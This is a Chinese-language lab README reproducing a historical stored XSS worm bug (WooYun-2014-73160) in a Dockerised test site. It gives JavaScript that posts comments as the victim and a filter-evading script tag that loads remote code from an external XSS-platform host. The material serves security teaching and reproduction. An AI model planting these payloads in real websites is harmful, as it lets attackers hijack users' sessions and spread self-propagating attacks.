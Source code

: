 

## 漏洞出处

WooYun-2014-73160

原知道创宇同事，现安途信息CEO，Ox_jin发现的万达电商平台严重的XSS蠕虫漏洞。


## 复现漏洞

运行测试环境：

`此环境需要公网可达环境，推荐在公有云平台上运行此事例`


```bash
docker-compose up -d
```

访问`http://your-ip:8000/`，

登录页面，输入用户名密码：

本事例中有三个用户名与密码，分别如下

```
用户名：密码
user1：user1
user2：user2
user3：user3
```

首先在任意公网环境XSS平台构造一个XmlRequest的对象,以POST形式发送到评论接口页面。下列代码中需要修改url中的IP参数与senddata的值。



```javascript
var url="http://yourip:8000/commit";

var sendata = "commit=ssy是大帅哥";

if (window.XMLHttpRequest){

var xmlhttp1=new XMLHttpRequest();

}

else{

var xmlhttp1=new ActiveXObject("Microsoft.XMLHTTP");

}

xmlhttp1.open("POST",url,true);

xmlhttp1.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

xmlhttp1.send(sendata); 
```

![](01.png)

xss平台生成远程JS文件链接地址：`<sCRiPt/SrC=//xss.fbisb.com/xxxx>`

![](02.png)

在评论页面处插入XSS代码：
`<sCRiPt/SrC=//xss.fbisb.com/2h62></script>`

任意用户登录页面会跨域调用恶意代码，发送评论`ssy是大帅哥`

![](03.png)

